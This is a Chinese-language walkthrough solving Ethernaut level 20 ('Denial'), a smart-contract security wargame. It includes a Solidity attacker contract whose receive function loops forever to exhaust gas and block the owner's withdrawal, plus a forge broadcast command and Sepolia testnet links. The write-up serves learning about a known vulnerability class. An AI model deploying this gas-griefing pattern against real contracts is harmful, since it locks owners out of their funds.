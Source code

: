 # Level 20

[The Ethernaut level 20](https://ethernaut.openzeppelin.com/level/20)

这一关的目的阻止 `owner` 从 `Denial` 合约中提取（`withdraw`）资金 。

仔细阅读合约，`Denial` 合约，任何人都可以调用 `withdraw` 方法提取资金。每次提取时各自转账 1% 的资金 `partner` 和 `owner`。
转账首先使用 `call` 向 `partner` 转账，没有检查返回值！（这里很关键）。然后 使用 `transfer` 向  `owner` 转账。
要想拒绝 `owner` 提取资金，只需要在向 `partner` 转账时搞点破坏就可以了，比如 `partner` 合约里 `receive` 函数内部的无限循环，交易最终将耗尽 gas 回退。


攻击者合约：
```
contract Attacker {
    uint256 counter = 0;

    constructor() {}

    receive() external payable {
        for (uint256 i = 0; i < 2 ** 256 - 1; i++) {
            counter += 1;
        }
    }
}
```

执行脚本：
```
forge script script/Level20.s.sol:CallContractScript --rpc-url sepolia --broadcast
```

完整代码见：[这里](../../ethernaut/script/Level20.s.sol)

链上记录：
- [level(`Denial`)](https://sepolia.etherscan.io/address/0x1536F390ACb7a8097903F2515b4EEb35a091a633)
- [Attacker(partner)](https://sepolia.etherscan.io/tx/0xAFB2EA284cAb965258c4BC3Dcf10C4b6f9f4728A)
- [attack 交易](https://sepolia.etherscan.io/tx/0xc697d7d3a5c1fdcaaa7545671af0c738b48984c82ca8de22f7ed7b23e001c09e)